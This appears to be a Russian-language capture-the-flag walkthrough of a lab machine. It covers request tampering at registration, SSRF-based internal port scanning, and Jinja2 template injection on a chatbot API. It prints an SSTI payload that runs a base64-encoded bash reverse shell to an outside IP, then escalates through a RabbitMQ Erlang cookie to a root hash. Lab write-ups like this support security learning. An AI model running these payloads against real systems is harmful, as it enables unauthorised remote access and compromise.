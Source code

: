


![[../attachment/Pasted image 20250408110553.png]]
для доступа к сайту добавим target ip и domain в /etc/hosts
Исследуя сайт находим поддомен storage, который добавляем в etc/hosts
Создаем пользователя и видим уведомление
![[../attachment/Pasted image 20250408111449.png]]

при регистрации был создан jwt token

![[../attachment/Pasted image 20250408112245.png]]

Возвращаемся к созданию учетную записи и добавляем строку  "subscription":"active"


![[../attachment/Pasted image 20250408112846.png]]
![[../attachment/Pasted image 20250408112854.png]]

После входа под новым пользователем мы получаем доступ  к загрузке файлов
![[../attachment/Pasted image 20250408112938.png]]
Попробуем загрузить png и проверить наличие уязвимости при загрузке файла (отсутствует)
![[../attachment/Pasted image 20250408113153.png]]

Сайт обращался к api (logout,register,uploads....) - проверим какие есть еще
![[../attachment/Pasted image 20250408113727.png]]

Доступа к api/docs запрещен 

На главной странице также есть загрузка через url
![[../attachment/Pasted image 20250408113834.png]]![[../attachment/Pasted image 20250408113921.png]]
![[../attachment/Pasted image 20250408115952.png]]
при просмотре файла ничего не найдено. Скорее всего есть другой порт, выполним поиск с помощью burp где будем менять значения порта от 80-N (первый поиск до 8390)
![[../attachment/Pasted image 20250408120057.png]]

После поиска сортируем по длине ответа и порт 3000 имеет наибольшею длину после 80 порта
Загружаем на сайт url http://127.0.0.1:3000/api/docs и получает путь к файлу в котором содержатся эндпоинты
![[../attachment/Pasted image 20250408120409.png]]

отправим POST запрос на api chatbot
![[../attachment/Pasted image 20250408122019.png]]![[../attachment/Pasted image 20250408122049.png]]
Проверим наличие SSTI
![[../attachment/Pasted image 20250408122108.png]]
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} ([Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/))
![[../attachment/Pasted image 20250408125048.png]]
генерируем с помощью revshell нагрузку bash и кодируем в base64 
```
"{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjIxLjYxLjM1LzY2NTUgMD4mMQ==|base64 -d|bash').read()}}"
```

подключаемся и забираем первый флаг
![[../attachment/Pasted image 20250408181414.png]]

При сканирование машины был сервис rabbit. Проверим домашнюю директорию пользователя rabbitmq (создается автоматически при установки rabbit)
![[../attachment/Pasted image 20250408181542.png]]
Получив куки erlang можно подключиться и экспортировать метаданные(definitions) 
Находим в них хеш root и декодируем 
![[../attachment/Pasted image 20250408181718.png]]

![[../attachment/Pasted image 20250408182056.png]]

Забираем флаг root
![[../attachment/Pasted image 20250408182217.png]]